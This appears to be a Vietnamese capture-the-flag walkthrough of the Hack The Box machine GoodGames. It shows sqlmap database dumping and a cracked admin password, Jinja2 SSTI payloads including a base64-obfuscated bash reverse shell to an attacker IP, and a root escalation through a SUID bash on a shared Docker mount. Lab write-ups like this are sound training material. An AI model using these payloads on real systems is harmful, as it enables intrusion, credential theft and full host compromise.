## Task 1


```bash
sudo rustscan -a 10.129.96.71 -b 500 --ulimit 5000 -- -sC -sV
```



> 1
## Task 2


Vào trang web dạo 1 vòng thì có một ô có khả năng dính SQL Injection

Tuy nhiên lại không request này khi nhấn vào, chúng ta tiếp tục tìm kiếm.

Thử payload vào các ô này xem phản ứng


> email
## Task 3


Sau khi xác định được request này bị dính sql, giờ chúng ta chạy sql map để rà quét
```bash
sqlmap -r game.req --dbs
```


Chúng ta tìm được 2 DB và tìm thử các tables trong DB main
```bash
sqlmap -r game.req -D main --tables
```

Chúng ta thử dump table user để lấy password. Thu được account của admin

Tuy nhiên hình như dạng hash, thử đưa lên crackstation xem sao

Vậy account thu được
`admin@goodgames.htb / superadministrator`
## Task 4


Sử dụng thông tin ở trên để đăng nhập thử vào target xem có gì mới không?

Lục tìm thêm các site khác, tôi nhần vào ô setting thì bị lỗi


> internal-administration.goodgames.htb
## Task 5


Chúng ta truy cập thử internal-administartion site xem có gì

Có lẻ nào account được tái sử dụng không? nhưng đúng thật 
`admin / superadministrator`


Chúng ta vào setting và thử đổi fullname xem sao

Khả năng bị lỗi SSTI thử một payload
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```


Có vẻ, nếu RCE được chúng ta có luôn quyền root nên thay id và base64 RCE
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNDUvNDQ0NCAwPiYx${IFS}|base64${IFS}-d|bash').read() }}
```


> Server Side Template Injection
## User Flag

## Task 7


Nhận thấy đây có vẻ là một container, Docker thường gán `.1` cho gateway trong bridge network và subnet cụ thể.


> 172.19.0.1
## Task 8


> mount
## Task 9


Lệnh mount cho ra kết quả

Chúng ta chú ý một chỗ
```
/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
```
Dòng đó cho thấy `/dev/sda1` (partition thật của host) được mount vào `/home/augustus` trong container.
```bash
script /dev/null bash
ssh augustus@172.19.0.1 #-> thử lại mật khẩu đã thu thập
```



Chúng ta đã login thành công vào host rồi giờ áp dụng kỉ thuật **SUID Binary Abuse via Shared Mount** bằng cách copy một file bash 


Tuy nhiên lúc này file này chỉ có owner user thường nhưng thư mục này lại được mount với container mà chúng ta có quyền root, nghĩa là chúng ta có thể vào container để chỉnh quyền xong thực thi tại host
```bash
chown root:root /home/augustus/bash
chmod 4755 /home/augustus/bash
```

Lúc này trong container chúng ta sẽ thấy được

File bash được bật SUID và quay lại host
```bash
/home/augustus/bash -p
```
Vậy giờ chúng ta thực hiện ssh ngược lại vào host 
> root:root
## Root Flag

